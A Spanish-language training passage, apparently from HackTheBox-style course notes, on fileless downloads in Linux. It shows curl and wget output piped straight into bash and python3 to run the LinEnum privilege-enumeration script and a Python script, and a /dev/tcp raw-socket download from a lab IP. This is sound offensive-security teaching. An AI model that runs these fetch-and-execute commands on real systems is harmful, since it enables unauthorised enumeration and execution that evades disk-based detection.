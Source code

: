 ## Ataques Fileless en Linux

Debido a la forma en que funciona Linux y cómo operan las tuberías (`pipes`), la mayoría de las herramientas que usamos en Linux pueden replicar operaciones sin archivos, lo que significa que no tenemos que descargar un archivo para ejecutarlo.

> **Nota:** Algunos payloads, como `mkfifo`, escriben archivos en el disco. Aunque la ejecución del payload puede ser "sin archivos" cuando usas una tubería, dependiendo del payload elegido, puede que se creen archivos temporales en el sistema operativo.

Tomemos el comando `cURL` que usamos anteriormente y, en lugar de descargar el script `LinEnum.sh`, ejecutémoslo directamente usando una tubería.

### **Descarga Fileless con cURL**

```bash
bashCopiar códigosherlock28@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

De manera similar, podemos descargar un archivo de script Python desde un servidor web y canalizarlo al intérprete de Python. Hagamos esto usando `wget`.

### **Descarga Fileless con Wget**

```bash
bashCopiar códigosherlock28@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```

## Descarga con Bash (/dev/tcp)

En ciertas situaciones, puede que no tengamos acceso a herramientas conocidas de transferencia de archivos. Mientras tengamos Bash versión 2.04 o superior instalado (compilado con `--enable-net-redirections`), podemos usar el archivo de dispositivo `/dev/tcp` para realizar descargas simples.

### **Conectar al servidor web objetivo**

```bash
sherlock28@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```

### **Realizar una solicitud HTTP GET**

```bash
sherlock28@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

### **Imprimir la respuesta**

```bash
sherlock28@htb[/htb]$ cat <&3
```
